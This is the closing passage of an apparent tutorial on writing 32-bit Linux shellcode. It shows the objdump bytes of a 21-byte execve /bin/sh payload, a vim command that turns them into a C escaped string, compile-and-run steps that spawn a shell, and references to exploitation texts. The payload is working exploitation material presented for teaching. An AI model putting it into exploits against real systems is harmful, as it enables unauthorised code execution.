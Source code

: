
It's a little bit shorter than the previous one, but the real occurs when you look at the generated shellcode:

```shell
$ objdump -s shellcode

shellcode:     file format elf32-i386

Contents of section .text:
 8048060 31c05068 2f2f7368 682f6269 6e89e331  1.Ph//shh/bin..1
 8048070 c9b00bcd 80                          .....
```

# Wrapping up

We have our hex instructions, let's put that in our wrapper. Here's a swift way to convert your hex string to the proper format with vim:

```
31c050682f2f7368682f62696e89e331c9b00bcd80

:s/\(..\)/\\x\1/g

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb0\x0b\xcd\x80
```

```c
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb0\x0b\xcd\x80";
```

```shell
$ gcc -o shellcode shellcode.c
$ ./shellcode
$ # new shell
```

References:

- [Smashing The Stack For Fun And Profit by Aleph One](http://phrack.org/issues/49/14.html#article)
- [Hacking: The Art of Exploitation by Jon Erickson](https://www.goodreads.com/book/show/61619.Hacking)
- [The Shellcoder's Handbook by Jack Koziol et al.](http://eu.wiley.com/WileyCDA/WileyTitle/productCd-0764544683.html) 
- [execve /bin/sh shellcode 23 bytes by Hamza Megahed](http://shell-storm.org/shellcode/files/shellcode-827.php)
- [X86 Assembly Interfacing with Linux](https://en.wikibooks.org/wiki/X86_Assembly/Interfacing_with_Linux)
- [What are the calling conventions for UNIX & Linux system calls on x86-64](https://stackoverflow.com/questions/2535989/what-are-the-calling-conventions-for-unix-linux-system-calls-on-x86-64)
- [ASM working as is, but not in a C program](https://reverseengineering.stackexchange.com/questions/16244/asm-working-as-is-but-not-in-a-c-program)
